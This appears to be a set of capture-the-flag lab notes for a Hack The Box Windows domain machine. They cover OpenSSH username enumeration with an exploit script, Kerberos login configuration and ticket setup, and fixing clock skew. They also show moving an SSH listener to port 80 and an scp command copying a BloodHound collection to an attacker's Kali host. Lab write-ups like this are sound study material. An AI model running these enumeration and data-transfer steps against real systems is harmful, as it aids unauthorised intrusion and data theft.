 ### Version < 7.7
```
python sshUsernameEnumExploit.py <IP> -w <wordlist>
```

### Login via kerberos
```
/etc/hosts(顺序必须一摸一样):
10.10.11.60     frizzdc.frizz.htb frizz.htb


/etc/krb5.conf:
[domain_realm]
    .frizz.htb = FRIZZ.HTB
    frizz.htb = FRIZZ.HTB
 
[libdefaults]
    default_realm = FRIZZ.HTB
    dns_lookup_realm = false
    dns_lookup_kdc = true
    ticket_lifetime = 24h
    forwardable = true
 
[realms]
    FRIZZ.HTB = {
        kdc = FRIZZDC.FRIZZ.HTB
        admin_server = FRIZZDC.FRIZZ.HTB
        default_domain = FRIZZ.HTB
    }

kinit f.frizzle@FRIZZ.HTB; klist or impacket-getTGT export KRB5CCNAME=f.frizzle.ccache klist

ssh f.frizzle@frizz.htb -K 
```
Solving Permission denied (gssapi-with-mic,keyboard-interactive).
```
sudo timedatectl set-ntp off
sudo rdate -n 10.10.10.100
Open a new terminal
```
### Change ssh port from 22 to 80
```
sudo vim /etc/ssh/sshd_config
Change the port from 22 to 80:
sudo service ssh restart
```
### SCP file transfer
```
scp -P 80 20250425032703_BloodHound.zip kali@10.10.14.3:/home/kali/Desktop/20250425032703_BloodHound.zip
```
